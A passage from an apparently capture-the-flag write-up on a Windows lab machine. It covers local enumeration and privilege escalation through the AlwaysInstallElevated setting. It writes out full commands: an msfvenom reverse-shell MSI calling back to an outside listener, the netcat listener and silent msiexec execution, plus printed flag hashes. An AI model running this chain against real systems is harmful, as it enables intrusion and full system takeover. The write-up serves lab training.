   IPv4 Address. . . . . . . . . . . : 10.10.10.239(Preferred) 
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 10.10.10.2
   DNS Servers . . . . . . . . . . . : 8.8.8.8
   NetBIOS over Tcpip. . . . . . . . : Enabled
```

Looks like there's a single network.

## Local users

Let's enumerate all local users using `PowerView`.

```cmd
C:\xampp\htdocs\omrs\images> powershell -command "Set-ExecutionPolicy -Scope Process -ExecutionPolicy Unrestricted; Import-Module C:\tmp\PowerView.ps1; Get-NetLocalGroupMember -GroupName Users | Where-Object { $_.MemberName -notmatch 'NT AUTHORITY' } | Select-Object GroupName, MemberName, SID | Format-Table"
```

```
GroupName MemberName  SID                                          
--------- ----------  ---                                          
Users     LOVE\Phoebe S-1-5-21-2955427858-187959437-2037071653-1002
```

It looks like there's only us, `phoebe`.

## Local groups

Let's enumerate all local groups, once again using `PowerView`.

```cmd
C:\xampp\htdocs\omrs\images> powershell -command "Set-ExecutionPolicy -Scope Process -ExecutionPolicy Unrestricted; Import-Module C:\tmp\PowerView.ps1; Get-NetLocalGroup | Select-Object GroupName, Comment | Format-Table | Out-String -Width 4096"
```

```
GroupName                           Comment                                                                                                                                                                                                       
---------                           -------                                                                                                                                                                                                       
Access Control Assistance Operators Members of this group can remotely query authorization attributes and permissions for resources on this computer.                                                                                             
Administrators                      Administrators have complete and unrestricted access to the computer/domain                                                                                                                                   
Backup Operators                    Backup Operators can override security restrictions for the sole purpose of backing up or restoring files                                                                                                     
Cryptographic Operators             Members are authorized to perform cryptographic operations.                                                                                                                                                   
Distributed COM Users               Members are allowed to launch, activate and use Distributed COM objects on this machine.                                                                                                                      
Event Log Readers                   Members of this group can read event logs from local machine                                                                                                                                                  
Guests                              Guests have the same access as members of the Users group by default, except for the Guest account which is further restricted                                                                                
Hyper-V Administrators              Members of this group have complete and unrestricted access to all features of Hyper-V.                                                                                                                       
IIS_IUSRS                           Built-in group used by Internet Information Services.                                                                                                                                                         
Network Configuration Operators      Members in this group can have some administrative privileges to manage configuration of networking features                                                                                                  
Performance Log Users               Members of this group may schedule logging of performance counters, enable trace providers, and collect event traces both locally and via remote access to this computer                                      
Performance Monitor Users           Members of this group can access performance counter data locally and remotely                                                                                                                                
Power Users                         Power Users are included for backwards compatibility and possess limited administrative powers                                                                                                                
Remote Desktop Users                Members in this group are granted the right to logon remotely                                                                                                                                                 
Remote Management Users             Members of this group can access WMI resources over management protocols (such as WS-Management via the Windows Remote Management service). This applies only to WMI namespaces that grant access to the user.
Replicator                          Supports file replication in a domain                                                                                                                                                                         
System Managed Accounts Group       Members of this group are managed by the system.                                                                                                                                                              
Users                               Users are prevented from making accidental or intentional system-wide changes and can run most applications
```

Looks classic.

## User account information

Let's gather more information about us.

```cmd
C:\xampp\htdocs\omrs\images> net user phoebe
```

```
User name                    Phoebe
Full Name                    Phoebe
Comment                      Workstation Power User
User's comment               
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            4/12/2021 11:54:30 AM
Password expires             Never
Password changeable          4/12/2021 11:54:30 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script                 
User profile                 
Home directory               
Last logon                   12/24/2023 3:02:54 PM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use*Users                
Global Group memberships     *None
<SNIP>
```

We don't belong to interesting groups.

## Home folder

If we check our home folder, we find the user flag on our Desktop. Let's retrieve its content.

```cmd
C:\xampp\htdocs\omrs\images> type C:\Users\Phoebe\Desktop\user.txt
```

```
4e46cb60d702c04b41f8100f3c076a86
```

There's nothing unusual though.

## Command history

Let's check the history of commands ran by `phoebe`.

```cmd
C:\xampp\htdocs\omrs\images> type C:\Users\Phoebe\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

```
curl 10.10.14.9:8000/dControl.zip -o dControl.zip
```

Alright, so `phoebe` downloaded a `dControl.zip` file and saved it.

Let's find its location:

```cmd
C:\xampp\htdocs\omrs\images> dir C:\ /s /b | findstr /i "\\dControl.zip$"
```

There's no output, so we couldn't find it.

## Tokens

Let's now focus on our tokens.

Which security groups are associated with our access tokens?

```cmd
C:\xampp\htdocs\omrs\images> whoami /groups
```

```
GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes                                        
====================================== ================ ============ ==================================================
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users        Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                          Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE               Well-known group S-1-5-4      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                          Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization         Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account             Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
LOCAL                                  Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication       Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level Label            S-1-16-8192
```

Unfortunately, there's nothing that we can abuse.

What about the privileges associated with our access tokens?

```cmd
C:\xampp\htdocs\omrs\images> whoami /priv
```

```
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State   
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled 
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled
```

There's nothing that we can leverage to elevate our privileges.

## Shares

Let's list the SMB shares available on Optimum, using the same version of `PowerView` as before.

```cmd
C:\xampp\htdocs\omrs\images> powershell -command "Set-ExecutionPolicy -Scope Process -ExecutionPolicy Unrestricted; Import-Module C:\tmp\PowerView.ps1; Get-NetShare | Select-Object Name, Remark | Format-Table"
```

```
Name   Remark       
----   ------       
ADMIN$ Remote Admin 
C$     Default share
IPC$   Remote IPC
```

So there's only default administrative shares.

## Environment variables

Let's check the environment variables for our shell. Maybe we'll find something out of the ordinary?

```cmd
C:\xampp\htdocs\omrs\images> set
```

```
ALLUSERSPROFILE=C:\ProgramData
APPDATA=C:\Users\Phoebe\AppData\Roaming
CommonProgramFiles=C:\Program Files\Common Files
CommonProgramFiles(x86)=C:\Program Files (x86)\Common Files
CommonProgramW6432=C:\Program Files\Common Files
COMPUTERNAME=LOVE
ComSpec=C:\WINDOWS\system32\cmd.exe
DriverData=C:\Windows\System32\Drivers\DriverData
HOMEDRIVE=C:
HOMEPATH=\Users\Phoebe
LOCALAPPDATA=C:\Users\Phoebe\AppData\Local
LOGONSERVER=\\LOVE
NUMBER_OF_PROCESSORS=2
OneDrive=C:\Users\Phoebe\OneDrive
OS=Windows_NT
Path=C:\WINDOWS\system32;C:\WINDOWS;C:\WINDOWS\System32\Wbem;C:\WINDOWS\System32\WindowsPowerShell\v1.0\;C:\WINDOWS\System32\OpenSSH\;C:\Users\Phoebe\AppData\Local\Microsoft\WindowsApps;
PATHEXT=.COM;.EXE;.BAT;.CMD;.VBS;.VBE;.JS;.JSE;.WSF;.WSH;.MSC
PROCESSOR_ARCHITECTURE=AMD64
PROCESSOR_IDENTIFIER=AMD64 Family 23 Model 49 Stepping 0, AuthenticAMD
PROCESSOR_LEVEL=23
PROCESSOR_REVISION=3100
ProgramData=C:\ProgramData
ProgramFiles=C:\Program Files
ProgramFiles(x86)=C:\Program Files (x86)
ProgramW6432=C:\Program Files
PROMPT=$P$G
PSModulePath=C:\WINDOWS\system32\WindowsPowerShell\v1.0\Modules\
PUBLIC=C:\Users\Public
SESSIONNAME=Console
SystemDrive=C:
SystemRoot=C:\WINDOWS
TEMP=C:\Users\Phoebe\AppData\Local\Temp
TMP=C:\Users\Phoebe\AppData\Local\Temp
USERDOMAIN=LOVE
USERDOMAIN_ROAMINGPROFILE=LOVE
USERNAME=Phoebe
USERPROFILE=C:\Users\Phoebe
windir=C:\WINDOWS
AP_PARENT_PID=6372
```

There's nothing interesting.

## Listening ports

Let's see if any TCP local ports are listening for connections.

```cmd
C:\xampp\htdocs\omrs\images> netstat -ano | findstr /C:"LISTENING" | findstr /C:"TCP"
```

```
  TCP    0.0.0.0:80             0.0.0.0:0              LISTENING       6372
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       916
  TCP    0.0.0.0:443            0.0.0.0:0              LISTENING       6372
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:3306           0.0.0.0:0              LISTENING       3796
  TCP    0.0.0.0:5000           0.0.0.0:0              LISTENING       6372
  TCP    0.0.0.0:5040           0.0.0.0:0              LISTENING       4768
  TCP    0.0.0.0:5985           0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:5986           0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:7680           0.0.0.0:0              LISTENING       3760
  TCP    0.0.0.0:47001          0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:49664          0.0.0.0:0              LISTENING       680
  TCP    0.0.0.0:49665          0.0.0.0:0              LISTENING       540
  TCP    0.0.0.0:49666          0.0.0.0:0              LISTENING       1200
  TCP    0.0.0.0:49667          0.0.0.0:0              LISTENING       1532
  TCP    0.0.0.0:49668          0.0.0.0:0              LISTENING       2348
  TCP    0.0.0.0:49669          0.0.0.0:0              LISTENING       660
  TCP    0.0.0.0:49670          0.0.0.0:0              LISTENING       2664
  TCP    10.10.10.239:139       0.0.0.0:0              LISTENING       4
  TCP    [::]:80                [::]:0                 LISTENING       6372
  TCP    [::]:135               [::]:0                 LISTENING       916
  TCP    [::]:443               [::]:0                 LISTENING       6372
  TCP    [::]:445               [::]:0                 LISTENING       4
  TCP    [::]:3306              [::]:0                 LISTENING       3796
  TCP    [::]:5000              [::]:0                 LISTENING       6372
  TCP    [::]:5985              [::]:0                 LISTENING       4
  TCP    [::]:5986              [::]:0                 LISTENING       4
  TCP    [::]:7680              [::]:0                 LISTENING       3760
  TCP    [::]:47001             [::]:0                 LISTENING       4
  TCP    [::]:49664             [::]:0                 LISTENING       680
  TCP    [::]:49665             [::]:0                 LISTENING       540
  TCP    [::]:49666             [::]:0                 LISTENING       1200
  TCP    [::]:49667             [::]:0                 LISTENING       1532
  TCP    [::]:49668             [::]:0                 LISTENING       2348
  TCP    [::]:49669             [::]:0                 LISTENING       660
  TCP    [::]:49670             [::]:0                 LISTENING       2664
```

There's no TCP port listening locally. What about UDP?

```cmd
C:\xampp\htdocs\omrs\images> netstat -ano | findstr /C:"LISTENING" | findstr /C:"UDP"
```

Nothing!

## Processes

Let's check which processes are running.

```cmd
C:\xampp\htdocs\omrs\images> tasklist /svc
```

```
Image Name                     PID Services                                    
========================= ======== ============================================
System Idle Process              0 N/A                                         
System                           4 N/A                                         
Registry                        92 N/A                                         
smss.exe                       324 N/A                                         
csrss.exe                      412 N/A                                         
csrss.exe                      520 N/A                                         
wininit.exe                    540 N/A                                         
winlogon.exe                   584 N/A                                         
services.exe                   660 N/A                                         
lsass.exe                      680 KeyIso, SamSs, VaultSvc                     
svchost.exe                    796 BrokerInfrastructure, DcomLaunch, PlugPlay, 
                                   Power, SystemEventsBroker                   
fontdrvhost.exe                816 N/A                                         
fontdrvhost.exe                824 N/A                                         
svchost.exe                    916 RpcEptMapper, RpcSs                         
svchost.exe                    964 LSM                                         
dwm.exe                       1008 N/A                                         
svchost.exe                    348 CryptSvc                                    
svchost.exe                    404 AppIDSvc                                    
svchost.exe                    936 CoreMessagingRegistrar                      
svchost.exe                    984 DsmSvc                                      
svchost.exe                   1076 NcbService                                  
svchost.exe                   1120 TimeBrokerSvc                               
svchost.exe                   1200 EventLog                                    
svchost.exe                   1248 DispBrokerDesktopSvc                        
svchost.exe                   1288 nsi                                         
svchost.exe                   1368 Dhcp                                        
vm3dservice.exe               1484 vm3dservice                                 
svchost.exe                   1532 Schedule                                    
svchost.exe                   1540 NlaSvc                                      
svchost.exe                   1592 ProfSvc                                     
svchost.exe                   1616 SysMain                                     
svchost.exe                   1624 EventSystem                                 
svchost.exe                   1656 Themes                                      
Memory Compression            1756 N/A                                         
svchost.exe                   1792 SENS                                        
svchost.exe                   1824 AudioEndpointBuilder                        
svchost.exe                   1836 FontCache                                   
svchost.exe                   1852 netprofm                                    
svchost.exe                   1976 SEMgrSvc                                    
svchost.exe                   2004 Audiosrv                                    
svchost.exe                   2084 Dnscache                                    
svchost.exe                   2092 DusmSvc                                     
svchost.exe                   2104 Wcmsvc                                      
svchost.exe                   2120 UserManager                                 
svchost.exe                   2184 ShellHWDetection                            
svchost.exe                   2292 WinHttpAutoProxySvc                         
spoolsv.exe                   2348 Spooler                                     
svchost.exe                   2424 BFE, mpssvc                                 
svchost.exe                   2472 LanmanWorkstation                           
svchost.exe                   2656 IKEEXT                                      
svchost.exe                   2664 PolicyAgent                                 
svchost.exe                   2672 LanmanServer                                
svchost.exe                   2788 DiagTrack                                   
svchost.exe                   2796 DPS                                         
svchost.exe                   2804 Winmgmt                                     
svchost.exe                   2884 Browser                                     
svchost.exe                   2900 TrkWks                                      
VGAuthService.exe             2912 VGAuthService                               
vmtoolsd.exe                  2932 VMTools                                     
svchost.exe                   2940 WpnService                                  
svchost.exe                   3016 iphlpsvc                                    
svchost.exe                   2640 WdiServiceHost                              
dllhost.exe                   3356 COMSysApp                                   
WmiPrvSE.exe                  3532 N/A                                         
svchost.exe                   3760 DoSvc                                       
svchost.exe                   3828 wuauserv                                    
svchost.exe                   4044 RmSvc                                       
msdtc.exe                     4072 MSDTC                                       
sihost.exe                    4180 N/A                                         
svchost.exe                   4204 CDPUserSvc_39aed                            
svchost.exe                   4240 WpnUserService_39aed                        
taskhostw.exe                 4316 N/A                                         
MicrosoftEdgeUpdate.exe       4332 N/A                                         
svchost.exe                   4456 TokenBroker                                 
svchost.exe                   4536 TabletInputService                          
svchost.exe                   4584 StateRepository                             
ctfmon.exe                    4612 N/A                                         
svchost.exe                   4768 CDPSvc                                      
explorer.exe                  4492 N/A                                         
svchost.exe                   4272 cbdhsvc_39aed                               
svchost.exe                   5272 StorSvc                                     
StartMenuExperienceHost.e     5520 N/A                                         
RuntimeBroker.exe             5716 N/A                                         
svchost.exe                   5780 BITS                                        
svchost.exe                   5872 SSDPSRV                                     
SearchApp.exe                 5904 N/A                                         
RuntimeBroker.exe              836 N/A                                         
SearchIndexer.exe             6180 WSearch                                     
RuntimeBroker.exe             6764 N/A                                         
vm3dservice.exe               7096 N/A                                         
vmtoolsd.exe                  7132 N/A                                         
OneDrive.exe                  5636 N/A                                         
xampp-control.exe             4040 N/A                                         
svchost.exe                   2696 lmhosts                                     
httpd.exe                     6372 N/A                                         
mysqld.exe                    3796 N/A                                         
conhost.exe                   4052 N/A                                         
httpd.exe                     6476 N/A                                         
dllhost.exe                   7672 N/A                                         
ApplicationFrameHost.exe      8136 N/A                                         
svchost.exe                   8168 LicenseManager                              
WinStore.App.exe              7408 N/A                                         
RuntimeBroker.exe             6260 N/A                                         
SgrmBroker.exe                7808 SgrmBroker                                  
svchost.exe                   7652 UsoSvc                                      
MoUsoCoreWorker.exe           7812 N/A                                         
svchost.exe                   7784 WinRM                                       
svchost.exe                   7924 wscsvc                                      
svchost.exe                   7556 OneSyncSvc_39aed                            
YourPhone.exe                 7960 N/A                                         
RuntimeBroker.exe             6868 N/A                                         
svchost.exe                   5596 PcaSvc                                      
SecurityHealthService.exe     7768 SecurityHealthService                       
ShellExperienceHost.exe       8124 N/A                                         
RuntimeBroker.exe             1996 N/A                                         
svchost.exe                   2736 InstallService                              
svchost.exe                   3468 W32Time                                     
svchost.exe                   6788 DsSvc                                       
UserOOBEBroker.exe            4224 N/A                                         
taskhostw.exe                 3820 N/A                                         
svchost.exe                   2960 WbioSrvc                                    
Microsoft.Photos.exe          4368 N/A                                         
svchost.exe                   8072 Appinfo                                     
RuntimeBroker.exe             6124 N/A                                         
cmd.exe                       7708 N/A                                         
conhost.exe                   3240 N/A                                         
cmd.exe                       4868 N/A                                         
svchost.exe                    972 wlidsvc                                     
svchost.exe                   6200 ClipSVC                                     
tasklist.exe                  3636 N/A
```

I don't see anything unusual.

## User autologon

Let's check the registry for user autologon entries.

```cmd
C:\xampp\htdocs\omrs\images> reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" 2>nul | findstr "DefaultUsername DefaultDomainName DefaultPassword"
```

```
    DefaultDomainName    REG_SZ    LOVE
```

Apparently, there's nothing.

## Credential manager

Let's check the credential manager for currently stored credentials. Maybe it contains something?

```cmd
C:\xampp\htdocs\omrs\images> cmdkey /list
```

```
Currently stored credentials:

* NONE *
```

Nothing.

## `AlwaysInstallElevated`

Let's check if the `AlwaysInstallElevated` registry key is set.

```cmd
C:\xampp\htdocs\omrs\images> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

```
HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
```

It is!

# Privilege escalation (`Always Install Elevated`)

The `Always Install Elevated` group policy setting allows non-administrator users to install programs that typically require administrative privileges for installation. This setting essentially grants elevated privileges to the Windows Installer service when installing software, regardless of the user's actual permissions.

## Preparation

I'll exploit this misconfiguration by installing a `.msi` file as `NT AUTHORITY\SYSTEM` to get a reverse shell.

First, I'll setup a listener to receive the shell.

```sh
❯ rlwrap nc -lvnp 9002
```

```
listening on [any] 9002 ...
```

Then I'll use `msfvenom` to create the reverse shell payload. I'll save it as `revshell.msi`.

```sh
❯ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.12 LPORT=9002 -f msi -o /workspace/server/revshell.msi
```

The last step is to transfer it to Love.

```cmd
C:\xampp\htdocs\gym\upload> copy \\10.10.14.12\server\revshell.msi C:\tmp\revshell.msi
```

```
        1 file(s) copied.
```

## Exploitation

Time to launch the `.msi` file!

```cmd
C:\tmp>msiexec /quiet /qn /i revshell.msi
```

And on our listener...

```
connect to [10.10.14.12] from (UNKNOWN) [10.10.10.239] 62323
Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>
```

Our listener caught the reverse shell! If we run `whoami`, we can confirm that we are indeed `NT AUTHORITY\SYSTEM`.

## Home folder

The only thing we need to do to finish this box is to retrieve the root flag.

And as usual, we can find it on our Desktop!

```cmd
C:\WINDOWS\system32> type C:\Users\Administrator\Desktop\root.txt
```

```
8fee35ff537b367ee23a2d79f6c77af9
```

# Afterwords



That's it for this box! I found the foothold quite easy to obtain, as it only involved good enumeration and finding a working CVE. The privilege escalation was really easy, since like the foothold it just required proper enumeration.

Thanks for reading!
